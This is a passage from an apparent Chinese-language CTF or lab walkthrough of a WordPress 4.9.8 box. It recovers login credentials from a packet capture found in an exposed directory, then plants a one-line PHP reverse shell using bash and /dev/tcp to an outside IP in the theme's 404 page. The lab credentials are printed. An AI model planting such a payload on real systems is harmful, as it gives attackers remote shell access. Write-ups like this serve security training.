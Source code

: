 ### 漏洞发掘

尝试找一下这个版本的漏洞：

```bash
searchsploit wordpress 4.9.8
```

![image-20240317000134837](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403170103360.png)

似乎没有利用起来比较方便的。

尝试找回密码：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403170103361.png" alt="image-20240317000218925" style="zoom:33%;" />

再找一下信息：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403170103362.png" alt="image-20240317000318236" style="zoom:33%;" />

重新看之前的信息搜集内容，发现一个奇怪的目录：

```bash
http://192.168.37.129/ipdata/
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403170103363.png" alt="image-20240317001101631" style="zoom:50%;" />

把这个数据流文件下载下来，追踪一下流量：

先是TCP流量，没啥东西：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403170103364.png" alt="image-20240317001348036" style="zoom:50%;" />

看一下其他的，最好可以找出登录信息，过滤字符串，看一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403170103365.png" alt="image-20240317001919494" style="zoom:50%;" />

发现了用户名和密码，尝试进行登录。

```apl
webdeveloper
Te5eQg&4sBS!Yr$)wf%(DcAd
```

![image-20240317002146749](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403170103366.png)

进来了！！！啊~~

添加一个反向shell到它的404页面上！

```php
<?php exec ("bash -c 'exec bash -i &>/dev/tcp/10.161.181.188/1234 <&1'");?>
```

![image-20240317003204745](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403170103367.png)

访问：
